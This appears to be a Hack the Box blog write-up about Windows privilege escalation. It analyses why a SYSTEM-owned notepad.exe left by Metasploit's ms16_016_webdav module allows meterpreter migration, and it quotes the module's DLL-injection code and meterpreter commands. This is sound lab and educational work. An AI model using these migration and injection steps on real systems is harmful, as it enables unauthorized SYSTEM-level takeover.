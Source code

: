 ```yaml
---
layout: post
title:  "Process All Access"
subtitle: "Hack the Box"
date:   2017-07-25 12:00:00 -0500
author: "coastal"
header-img: "images/htb/process-all-access/header.jpg"
---
```


Recently, I was working on privilege escalation from inside a Windows Server 2003 box. While I was enumerating the box, I took a look at the running processes and saw some interesting things.

```
>ps
PID   PPID  Name          Arch  Ses  User                Path
---   ----  ----          ----  ---  ----                ----
[...snip...]


2356  3312  cmd.exe        x86   0   IIS APPPOOL\Web     C:\Windows\system32\cmd.exe
2384  2784  notepad.exe    x86   0   NT AUTHORITY\SYSTEM C:\Windows\system32\notepad.exe
2732  1788  notepad.exe    x86   0   IIS APPPOOL\Web     C:\Windows\system32\notepad.exe
3312  1476  w3wp.exe       x86   0   IIS APPPOOL\Web     c:\windows\system32\inetsrv\w3wp.exe
```

We notice some curious processes for a remote server, specifically ```notepad.exe``` running as ```NT AUTHORITY\SYSTEM```. Now anyone familiar with meterpreter knows that ```notepad.exe``` is a favorite process to spin up as a host for the meterpreter session. Given the ```SYSTEM``` level access, it is likely that another hackthebox user has performed successful exploitation and is enjoying their new privileges. Just as a bit of a joke, I decided to try to receive some ill-gotten gains:

```
meterpreter > migrate 2384
[*] Migrating from 3312 to 2384...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Wait, whoops. I seem to have gotten myself ```SYSTEM``` without any of the heavy lifting! Congrats, right!

Well I decided that wasn't exactly sporting and ditched my shell. After I successfully performed the privilege escalation and got a proper ```SYSTEM```, I had to figure out why I had been able to own the box via ```migrate```. As I guessed (correctly) that the other user had performed priv esc via the same methodology, I checked the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_016_webdav.rb) of the exploit to see what was going on with the ```notepad.exe``` spawn.

```
print_status("Launching notepad to host the exploit...")
  notepad_process_pid = cmd_exec_get_pid("notepad.exe")
  begin
    process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
    print_good("Process #{process.pid} launched.")
  rescue Rex::Post::Meterpreter::RequestError
    print_error("Operation failed. Hosting exploit in the current process...")
    process = client.sys.process.open
end
```

So we try to spawn a new ```notepad.exe``` process that will host the exploit. If we are unable to spawn a new process, we use the current running process as the host. Offloading the escalation to a new ```notepad.exe``` is more stealthy than escalating the currently running process. As the running process ```w3wp.exe``` is an IIS worker process that handles requests sent to the IIS application pool, if our exploit crashes the process would die and most likely be noticed immediately by even an inattentive sysadmin. However, if a newly spawned ```notepad.exe``` process dies, it makes much less noise and doesn't impede application function.

The line of code in this section relevant to the strange behavior that we observed is:

```
process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
```

The notepad process is spawned with ```PROCESS_ALL_ACCESS``` designation. In the Windows Documentation on [Process Security and Access Rights](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx), we can see that this flag, when passed to ```CreateProcess``` gives the new process object all possible access rights. This means that the any processes running on the system can use the new process to create new processes and threads, duplicate its handle, query information about the process such as tokens and access codes, set information about the process, read and write to its memory, perform an operation on its address space, and do basically whatever it likes with the new process.

Assuming we are successful in our process creation, we next load the exploit ```.dll``` into the process 

```
print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
library_path = ::File.join(Msf::Config.data_directory, "exploits", "cve-2016-0051", "cve-2016-0051.x86.dll")
library_path = ::File.expand_path(library_path)
exploit_mem, offset = inject_dll_into_process(process, library_path)
print_status("Exploit injected ... injecting payload into #{process.pid}...")
payload_mem = inject_into_process(process, payload.encoded)
thread = process.thread.create(exploit_mem + offset, payload_mem)
sleep(3)
print_status("Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.")
```

As we can see, the lenient access rights on the process is what allows us to inject the exploit ```.dll```, payload, and run with ```SYSTEM``` privileges. 

Interestingly enough, it doesn't look like the exploit migrates the meterpreter session to the newly escalated ```notepad.exe``` process. While we could set our payload to a reverse shell and catch our new ```SYSTEM``` privileges, we could also perform the exploit without any payload and migrate meterpreter into the elevated ```PROCESS_ALL_ACCESS``` process. I decided to perform the priv esc that way, and got my ```SYSTEM``` the same as the cheap way. But this time I earned it.

-coastal

### Resources

https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx
https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities
https://stackoverflow.com/questions/7822898/what-is-w3wp-exe















